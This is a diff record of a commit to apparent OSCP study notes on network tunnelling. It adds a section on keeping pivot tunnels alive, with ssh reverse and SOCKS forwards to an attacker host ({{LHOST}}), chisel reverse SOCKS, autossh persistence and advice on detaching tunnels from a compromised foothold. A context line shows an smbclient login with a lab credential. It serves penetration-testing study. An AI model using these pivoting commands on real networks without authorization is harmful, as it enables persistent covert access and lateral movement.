

Before and after one commit to SkinnyRat/Cybersecurity, a Markdown page: tunnelling/tunnelling.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Tunnelling

````diff
--- a/tunnelling/tunnelling.md
+++ b/tunnelling/tunnelling.md
@@ -411,6 +411,57 @@ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
 
 ---
 
+# E — Keeping tunnels alive
+
+A tunnel is only as stable as the **process carrying it**. A *forwarded* TCP connection is as reliable
+as any TCP connection — what actually drops is the carrier. In the OSCP the carrier is usually your
+flaky reverse shell, so **the tunnel tech is rarely the weak link; your foothold is.** Robustness
+ranking: **netsh portproxy** (survives reboot) > **chisel** (auto-reconnects) > **socat** > **sshuttle**
+> **ssh -L/-D/-R** (dies with the SSH session) > **dnscat2** (works, but slow/fragile).
+
+**Top ways they die, and the fix:**
+
+| It died because… | Fix |
+|---|---|
+| You started the tunnel **inside a netcat shell** and the shell dropped | Get a stable foothold first (SSH/WinRM); background + detach the tunnel (below) |
+| Ran `ssh` **without `-N` / in foreground**, then exited the shell | Always `ssh -f -N …`; launch from `tmux`/`screen` on Kali |
+| **NAT/firewall idle-timeout** silently killed a quiet tunnel | Keepalives (below) |
+| Pivot process was a **child of the exploited service**; it restarted | Migrate to a stable account/service, or use netsh (survives reboot) |
+| proxychains "hung" | Not dead — just slow/TCP-only. `-sT -Pn`, one proxy line, be patient |
+
+**Background & detach properly** (so closing your shell doesn't take the tunnel):
+
+```bash
+ssh -f -N -D 0.0.0.0:9999 {{USERNAME}}@<DEEP_IP>     # -f self-backgrounds after auth, -N no shell
+nohup ssh -N -R 9998 {{USERNAME}}@{{LHOST}} &        # or nohup + & when -f isn't an option
+disown                                                # detach the job from the current shell
+# best of all: run the whole pivot from a tmux/screen session on Kali so it outlives disconnects
+tmux new -s pivot
+```
+
+**Keepalives** — stop idle NAT/firewall drops (client-side `ssh`, or system-wide in `~/.ssh/config`):
+
+```bash
+ssh -N -D 9999 {{USERNAME}}@<DEEP_IP> \
+    -o ServerAliveInterval=60 -o ServerAliveCountMax=3 -o ExitOnForwardFailure=yes
+chisel client {{LHOST}}:8080 R:socks --keepalive 25s   # chisel's own keepalive
+```
+
+**Auto-reconnect** — for long/unattended pivots that must ride out blips:
+
+```bash
+sudo apt install -y autossh
+# autossh respawns the SSH tunnel automatically if it drops (same -L/-D/-R args as ssh)
+autossh -M 0 -f -N -R 9998 {{USERNAME}}@{{LHOST}} \
+    -o ServerAliveInterval=30 -o ServerAliveCountMax=3
+```
+
+> **chisel** already retries on its own, which is why it's the go-to for anything long-running.
+> **netsh portproxy** persists across reboots (great for durability — but *remember to clean it up*,
+> see §C.3). For quick exam pivots you mostly just need #1 and #2: stable foothold + backgrounded tunnel.
+
+---
+
 # 20.3 / 19.5 — Wrapping up
 
 - **Enumerate the pivot from inside first** (`ip addr`, `ip route`, `ss -ntplu`, sweep the new subnet
````
Also changed, not shown: other parts of tunnelling/tunnelling.md (+1 -1 lines).
